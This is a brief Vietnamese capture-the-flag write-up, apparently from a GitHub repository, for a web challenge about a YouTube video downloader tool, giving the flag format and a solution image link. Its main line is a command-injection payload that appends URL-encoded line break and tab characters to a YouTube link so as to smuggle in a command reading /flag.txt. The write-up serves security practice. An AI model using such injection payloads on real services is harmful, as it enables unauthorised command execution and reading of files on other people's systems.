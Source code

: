 Youtube Downloader là công cụ giúp bạn tải video từ Youtube về máy tính miễn phí. Nếu hack được ứng dụng này, bạn sẽ nắm trong tay công nghệ tải video của các website Youtube Downloader trên thế giới.

Format Flag: CHH{XXX}

https://www.youtube.com/watch?v={id link youtube}%0D%0Acat%09/flag.txt
![image](https://github.com/minhngoc9119/WEB_CTF/assets/34714073/413731a2-6c4d-40bd-b1d0-33b65f166797)
